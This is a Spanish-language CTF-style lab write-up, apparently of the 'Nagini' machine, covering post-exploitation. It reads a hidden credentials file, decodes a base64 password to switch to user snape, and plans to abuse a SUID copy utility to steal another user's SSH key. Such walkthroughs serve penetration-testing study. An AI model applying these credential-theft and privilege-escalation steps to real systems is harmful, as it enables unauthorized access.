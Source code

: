 ## Post Explotación


Acción:

```bash
hostname -I
cd /home
ls
cd snape/
ls -la
cat .creds.txt 
echo TG92ZUBsaWxseQ== | base64 -d; echo
su snape
```

Resultado:

```bash
192.168.100.128 10.10.0.129 
hermoine  snape
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 2 snape snape 4096 Sep 27 04:53 .ssh
TG92ZUBsaWxseQ==
Love@lilly
Password: <Love@lilly>
snape@Nagini:~$ 
```

Explicación: comprobamos las direcciones IP de la máquina, vemos que tiene conexión dentro del rango de red de Aragog, pero también esta dentro del rango de otras redes, lo cual va a ser nuestra puerta de entrada a un nuevo pivotaje. Además, vemos el directorio `/home` con dos usuarios, de los cuales `snape` tiene un archivo oculto con su credencial en base64. Usando la contraseña encontrada accedemos al usuario `snape`

Acción:

```bash
cd /home/hermoine/bin/
ls -la
./su_cp --help
```

Resultado:

```bash
-rwsr-xr-x 1 hermoine hermoine  146880 Apr  4  2021 su_cp
Usage: ./su_cp [OPTION]... [-T] SOURCE DEST
  or:  ./su_cp [OPTION]... SOURCE... DIRECTORY
  or:  ./su_cp [OPTION]... -t DIRECTORY SOURCE...
Copy SOURCE to DEST, or multiple SOURCE(s) to DIRECTORY.
```

Explicación: acudiendo a la ruta del otro usuario `hermoine` vemos que tiene un ejecutable `su_cp` al ejecutarlo vemos que es un script que actúa como el comando `cp` de Linux que sirve para hacer copias. Como tiene permisos SUID, podemos hacernos una copia de su clave de ssh y ganar acceso a su usuario
